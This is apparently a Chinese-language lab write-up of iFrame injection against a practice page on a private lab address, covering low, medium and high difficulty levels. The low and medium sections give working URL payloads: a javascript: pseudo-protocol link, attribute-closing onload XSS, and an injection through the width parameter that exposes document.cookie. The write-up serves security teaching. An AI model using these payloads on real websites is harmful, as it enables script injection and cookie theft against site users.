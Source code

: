 # iFrame 注入

## low

通过修改注入处参数ParamUrl进行控制

可以直接用来访问网站或读取本地文件

```
URl转跳
http://192.168.0.108/iframei.php?ParamUrl=https://www.baidu.com&ParamWidth=250&ParamHeight=250
js伪协议
http://192.168.0.108/iframei.php?ParamUrl=javascript:alert(111)&ParamWidth=250&ParamHeight=250
闭合注入xss
http://192.168.0.108/iframei.php?ParamUrl=" onload="alert(1)&ParamWidth=250&ParamHeight=250kkk
```

## medium

中级别难度中我们可以通过看源码发现新增了防护,ParamUrl被写死,对反斜杠做了转义,这时我们可以把目光放到后半部分

利用方法

http://192.168.0.108/iframei.php?ParamUrl=robots.txt&ParamWidth=800" onload=alert(document.cookie) //&ParamHeight=800

## high 

高级别转化为HTML实体,且参数正确,安全
